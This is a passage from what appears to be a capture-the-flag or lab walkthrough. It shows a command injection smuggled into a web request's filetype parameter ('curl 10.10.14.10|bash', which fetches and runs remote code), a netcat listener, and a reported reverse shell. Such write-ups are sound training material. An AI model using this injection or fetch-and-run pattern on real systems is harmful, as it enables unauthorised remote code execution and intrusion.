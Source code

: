 Modify the request:

```bash
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=jpg;curl+10.10.14.10|bash&dimensions=600x400
```

Start a listener:

```bash
nc -lvnp 443
```

Send the request:

![](screenshots/burpsuite_index_bash.png)

Reverse shell obtained.

---
## 4. Foothold
